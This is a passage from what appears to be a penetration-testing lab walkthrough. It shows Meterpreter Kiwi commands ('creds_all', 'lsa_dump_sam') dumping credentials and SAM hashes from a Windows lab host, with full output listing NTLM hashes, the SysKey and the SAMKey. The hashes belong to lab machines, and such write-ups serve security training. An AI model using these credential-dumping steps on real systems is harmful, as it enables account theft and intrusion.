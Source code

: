 - Retrieve all credentials

```bash
creds_all
```

```bash
msv credentials
===============
Username       Domain         NTLM                              SHA1
--------       ------         ----                              ----
Administrator  ATTACKDEFENSE  e3c61a68f1b89ee6c8ba9507378dc88d  fa62275e30d286c09d30d8fece82664eb34323ef

wdigest credentials
===================
Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
ATTACKDEFENSE$  WORKGROUP      (null)
Administrator   ATTACKDEFENSE  (null)
# clear-text passwords are not stored on Win2016

kerberos credentials
====================
Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
Administrator   ATTACKDEFENSE  (null)
attackdefense$  WORKGROUP      (null)
```

- Dump LSA SAM (NTLM hashes for all users)

```bash
lsa_dump_sam
```

```bash
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b
```
